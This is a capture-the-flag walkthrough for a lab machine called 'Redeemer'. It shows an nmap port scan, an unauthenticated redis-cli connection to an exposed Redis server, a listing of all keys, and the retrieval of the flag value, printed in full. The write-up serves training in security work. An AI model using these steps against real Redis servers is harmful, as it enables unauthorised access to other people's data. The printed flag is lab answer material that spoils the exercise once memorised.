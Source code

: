 # Redeemer

#redis #vulnerabilityassessment #databases #reconnaissance #anonymous/guestaccess 

`nmap` scan shows `redis` running on port 6379:

```
$ nmap -p- -sV 10.129.216.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-31 08:23 EDT
Nmap scan report for 10.129.216.4
Host is up (0.22s latency),
Not shown: 65534 closed tcp ports (conn-refused)

PORT     STATE SERVICE 
6379/tcp open  redis   Redis key-value store 5.0.7
```

Connecting to the database via `redis-cli` and running `info`:

```
$ redis-cli -h 10.129.216.4
10.129.216.4:6379> info
...
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

Getting all the keys:

```
10.129.216.4:6379> keys *
1) "temp"
2) "stor"
3) "flag"
4) "numb"
(0.52s)
```

Getting the `flag` key:

```
10.129.216.4:6379> get flag
"03e1d2b376c37ab3f5319922053953eb"
```

